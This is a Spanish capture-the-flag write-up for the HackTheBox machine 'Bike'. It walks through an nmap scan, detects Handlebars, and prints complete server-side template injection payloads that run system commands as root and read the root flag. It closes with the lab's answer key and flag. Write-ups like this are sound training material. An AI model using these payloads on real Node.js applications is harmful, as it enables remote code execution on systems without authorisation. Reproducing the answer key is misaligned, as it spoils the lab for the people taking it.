Resolución de la máquina Bike de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 10.129.129.9
Nmap scan report for 10.129.129.9
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
En la web podemos ver un campo donde podemos introducir un email, poco más

Wappalizer nos muestra las tecnologías, Framework Express, Node.js y jQuery de versión antigua

Podemos intentar aplicar un Server Side Template Injection {{7*7}} y ver el resultado

Nos lanza un error pero gracias a eso podemos ver que corre handlebars por detrás

Podemos interceptar la petición y mandar un payload especialmente diseñado para handlebars
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
BurpSuite tiene una opción llamada Decoder donde podemos encodear o decodear texto

Podemos usar Encode As Url para encodear nuestro payload en url y una sola linea

Una vez hacemos eso nos mostrará el payload urlencodeado en la parte de abajo

Lo pegamos en el campo email de la petición que interceptamos de preferencia en el repeater

En la respuesta nos dice que 'require' no esta definido asi que debemos buscar alternativas

Podemos cambiar la linea donde se usa require al ejecutar el comando de la siguiente manera
{{this.push "return require('child_process').exec('whoami');"}}
{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
Nuestro payload final con una alternativa a require quedaria de la siguiente forma
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
Al urlencodear el payload y enviarlo en la respuesta podemos ver que el usuario es root

Ejecutamos comandos, podemos cambiar el comando en el payload por uno que lea la flag
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
Urlencodeamos y enviamos de nuevo y en la respuesta podemos ver reflejada la flag

Vamos con las preguntas que nos pide la web de htb para pwnear la máquina
What TCP ports does nmap identify as open? Answer with a list of ports seperated by commas with no spaces, from low to high.
- 22,80
What software is running the service listening on the http/web port identified in the first question?
- Node.js
What is the name of the Web Framework according to Wappalyzer?
- Express
What is the name of the vulnerability we test for by submitting {{7*7}}?
- Server Side Template Injection
What is the templating engine being used within Node.JS?
- Handlebars
What is the name of the BurpSuite tab used to encode text?
- Decoder
In order to send special characters in our payload in an HTTP request, we'll encode the payload. What type of encoding do we use?
- URL
When we use a payload from HackTricks to try to run system commands, we get an error back. What is "not defined" in the response error?
- require
What variable is the name of the top-level scope in Node.JS?
- global
By exploiting this vulnerability, we get command execution as the user that the webserver is running as. What is the name of that user?
- root
Submit root flag
- 6b258d726d287462d60c103d0142a81c